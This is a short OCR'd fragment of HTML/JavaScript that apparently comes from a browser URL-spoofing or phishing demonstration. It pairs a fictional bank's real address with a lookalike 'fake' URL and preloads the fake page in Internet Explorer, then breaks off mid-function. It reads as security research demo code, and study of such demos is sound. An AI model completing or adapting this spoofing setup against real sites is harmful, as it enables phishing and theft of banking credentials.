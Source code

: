 ```html
  '<p><div style="border-width: 1px 0 0 0;border-color:steelblue; border-style:solid">' +
  '<font color=gray size=-1>Member FDIC. FDA certified. Truck parking available.</font></div>';

var originalURL = 'http://banking.beaver-peak.us/banking_interface/';
var fakeURL = 'http://banking.coredump.cx/us/banking_interface/';
function dostuff() {
  /* Precache */
  if (navigator.userAgent.indexOf('; MSIE') != -1) {
    var x = new Image();
    x.src = fakeURL;
  }
